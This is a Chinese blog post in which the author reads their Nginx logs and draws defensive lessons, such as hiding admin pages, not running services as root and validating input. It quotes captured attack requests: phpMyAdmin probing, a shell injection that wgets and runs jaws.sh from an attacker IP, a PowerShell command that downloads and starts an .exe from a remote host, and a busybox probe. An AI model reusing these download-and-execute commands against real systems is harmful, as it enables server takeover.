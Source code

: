 ```yaml
---
layout: post
title:  "读Nginx日志有感"
date:   2019-07-18
tags: Web
color: rgb(255,204,255)
---
```


> 【网络安全真的很重要】虽然在学习各种框架的时候，都会有五花八门的安全提示，
> 但是我真的从没有认真去考虑过安全问题。这几天看了看自己Nginx服务器的日志，感觉有点后怕。
> 写下这篇博客来记录我所见到的安全隐患：

## 还好我没有学PHP

肉眼所见，几乎全部都是针对`php`的攻击，主要分两种：

### 探测漏洞文件

可以看到从某个ip发来了无数个请求，请求各种看起来会很常见的php文件，像这样：

```shell
121.50.168.75 - - [17/Jul/2019:07:35:54 +0000] "GET /phpMyAdmina/index.php HTTP/1.1" 301 169 "-" "Mozilla/5.0 (X11; Linux x86_64; rv:28.0) Gecko/20100101 Firefox/28.0" "-"
121.50.168.75 - - [17/Jul/2019:07:35:54 +0000] "GET /phpMydmin/index.php HTTP/1.1" 301 169 "-" "Mozilla/5.0 (X11; Linux x86_64; rv:28.0) Gecko/20100101 Firefox/28.0" "-"
121.50.168.75 - - [17/Jul/2019:07:35:54 +0000] "GET /phpMyAdmins/index.php HTTP/1.1" 301 169 "-" "Mozilla/5.0 (X11; Linux x86_64; rv:28.0) Gecko/20100101 Firefox/28.0" "-"
121.50.168.75 - - [17/Jul/2019:07:35:56 +0000] "GET /phpMyAdmin._/index.php HTTP/1.1" 301 169 "-" "Mozilla/5.0 (X11; Linux x86_64; rv:28.0) Gecko/20100101 Firefox/28.0" "-"
121.50.168.75 - - [17/Jul/2019:07:35:58 +0000] "GET /phpMyAdmin._2/index.php HTTP/1.1" 301 169 "-" "Mozilla/5.0 (X11; Linux x86_64; rv:28.0) Gecko/20100101 Firefox/28.0" "-"
121.50.168.75 - - [17/Jul/2019:07:35:58 +0000] "GET /phpmyadmin2222/index.php HTTP/1.1" 301 169 "-" "Mozilla/5.0 (X11; Linux x86_64; rv:28.0) Gecko/20100101 Firefox/28.0" "-"
121.50.168.75 - - [17/Jul/2019:07:35:58 +0000] "GET /phpmyadmin3333/index.php HTTP/1.1" 301 169 "-" "Mozilla/5.0 (X11; Linux x86_64; rv:28.0) Gecko/20100101 Firefox/28.0" "-"
121.50.168.75 - - [17/Jul/2019:07:35:59 +0000] "GET /php2MyAdmin/index.php HTTP/1.1" 301 169 "-" "Mozilla/5.0 (X11; Linux x86_64; rv:28.0) Gecko/20100101 Firefox/28.0" "-"
121.50.168.75 - - [17/Jul/2019:07:35:59 +0000] "GET /phpiMyAdmin/index.php HTTP/1.1" 301 169 "-" "Mozilla/5.0 (X11; Linux x86_64; rv:28.0) Gecko/20100101 Firefox/28.0" "-"
121.50.168.75 - - [17/Jul/2019:07:35:59 +0000] "GET /phpNyAdmin/index.php HTTP/1.1" 301 169 "-" "Mozilla/5.0 (X11; Linux x86_64; rv:28.0) Gecko/20100101 Firefox/28.0" "-"

```

主要思路就是瞎猫碰死耗子，看看能不能蒙出你的管理页面（或者数据库之类的脚本），如果真的有的话，估计还有后续手段。

然后我们查一下这个ip地址，显示的信息是supercloud.cc（香港 环球全域电讯）的机房，
那估计是黑客在这里租了一个服务器作为跳板进行攻击了。

**收获：隐藏好你的管理页面，最好不要对外公开（或者限定ip访问）。**

### 注入脚本攻击

还可以看到有些请求是在url中附带了脚本命令，像这样：

```shell
89.248.174.198 - - [17/Jul/2019:23:56:44 +0000] "GET /shell?cd+/tmp;wget+http:/\x5C/89.248.174.198/jaws.sh+-O+-+>smoke.sh;chmod+777+smoke.sh;sh+smoke.sh HTTP/1.1" 301 169 "-" "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/75.0.3770.100 Safari/537.36" "-"

49.234.49.224 - - [17/Jul/2019:19:53:26 +0000] "GET /public/hydra.php?xcmd=cmd.exe%20/c%20powershell%20(new-object%20System.Net.WebClient).DownloadFile('http://fid.hognoob.se/download.exe','%SystemRoot%/Temp/wajwfzbrjkmlehn31933.exe');start%20%SystemRoot%/Temp/wajwfzbrjkmlehn31933.exe HTTP/1.1" 404 555 "http://49.234.46.113:80/public/hydra.php?xcmd=cmd.exe /c powershell (new-object System.Net.WebClient).DownloadFile('http://fid.hognoob.se/download.exe','%SystemRoot%/Temp/wajwfzbrjkmlehn31933.exe');start %SystemRoot%/Temp/wajwfzbrjkmlehn31933.exe" "Mozilla/4.0 (compatible; MSIE 9.0; Windows NT 6.1)" "-"

82.117.191.2 - - [17/Jul/2019:16:44:21 +0000] "GET /webadmin/script?command=|busybox HTTP/1.1" 400 157 "-" "Mozilla/5.0" "-"
```

主要思路就是，看能不能通过你的web服务，在你的主机上执行指定的命令。例如`chmod+777+smoke.sh`，
`wget+http:/\x5C/89.248.174.198/jaws.sh`，`DownloadFile('http://fid.hognoob.se/download.exe'`
这种，就算是外行也能感觉到很危险吧。

**收获：不要使用`root`权限用户运行web服务；无论何时，必须对用户提交的任何数据进行检查。**

这让我想起了`uWSGI`日志中的警告：

```text
uWSGI running as root, you can use --uid/--gid/--chroot options
*** WARNING: you are running uWSGI as root !!! (use the --uid flag) ***
```

有点不寒而栗的感觉。看来以后还是要乖乖听取前人的话才是。

## Good News

但在Internet上也不全是坏事。

我也看到了来自百度的问候：

```shell
123.125.67.156 - - [18/Jul/2019:02:50:16 +0000] "GET /robots.txt HTTP/1.1" 404 555 "-" "Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/45.0.2454.93 Safari/537.36" "-"

220.181.108.153 - - [18/Jul/2019:02:53:57 +0000] "GET / HTTP/1.1" 301 169 "-" "Mozilla/5.0 (compatible; Baiduspider/2.0; +http://www.baidu.com/search/spider.html)" "-"
```

非常友善地自报家门，甚至还会敲敲门（robot.txt）。

这也提醒了我，我还没设置`robot.txt`文件呢。不过我这也没什么秘密，直接建立一个空文件就好了。
详情参考[解释](https://www.robotstxt.org/robotstxt.html)。

## 小结

放眼望去基本都是针对`php`的攻击（没办法，谁让你这个`/php?xxxxx`是如此地个性呢）。
看完之后甚至想笑——还好我没学php。

当然，也有一些针对nginx的，还有一些看不出手段，但是也是通过脚本注入的形式来控制你的服务器。

相应的我觉得也有办法，使用虚拟机/容器技术，刚好就可以很大程度上的减少这类攻击带来的损失。

不过最好的还是要防患于未然了！